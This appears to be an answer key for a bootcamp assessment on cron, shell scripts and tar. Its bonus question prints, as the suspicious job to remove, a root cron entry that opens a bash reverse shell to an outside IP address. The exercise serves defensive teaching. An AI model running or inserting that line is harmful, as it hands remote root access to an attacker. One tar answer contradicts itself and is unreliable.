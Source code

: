 ## Solution File: Reviewing Crons

1. Answer the following `cron` assessment questions:

    - When will the following `cron` schedules run?

      `*/10 * * * *` 

       - **Solution**: At every 10th minute.

    - What event is the following `cron` a minute away from?

      `59 23 31 12 *`

       - **Solution**: New Years!

    - What do the following hypothetical `cron` likely do?

        - `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

            - **Solution**: Run a script that adds up all the sales for the work day.

        - `@weekly /home/sysadmin/Scripts/auto-update.sh`

            - **Solution**: A weekly automated system upate.

2. Answer the following `script` assessment questions:

    - What is a _shebang_?

        - **Solution**: It is the commented file declaration at the top of a shell script.

    - What two characters should come before the filename of a script?

        - **Solution**: `./`

    - Jane's script has _user_ and _group_ ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?

        - **Solution**: Run `chmod +x` on her file!

3. Answer the following `tar` assessment questions:

    - How does the `-x` option modify the `tar` command?

        - **Solution**: This option will let `tar` extract an archive!

    - If a directory has `ten` files and the following command is used in it, how many files are being archived?

        -   `tar cvvWf backups/archive.tar .`

            - **Solution**: Zero, because tar doesn’t compress!! But all files should be archived as they're all in ., the current directory!

    - What option prints the full file specification of files as you interact with them?

        - **Solution**: `-vv`

    - Why is the `-f` option used in almost every `tar` operation?

        - **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

4. **Bonus**: You are tasked to look through the `cron` jobs within your current workstation to see if any suspicious or modified cron jobs exist. Remove the one that matches the following descriptions: `Cron` is running system-level jobs with `root` privileges.The `cron` task you're looking for involves another machine.

   - Run: `sudo crontab -e` to open the `root` `crontab`.

   - The cron you wanted to remove was:

   - `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
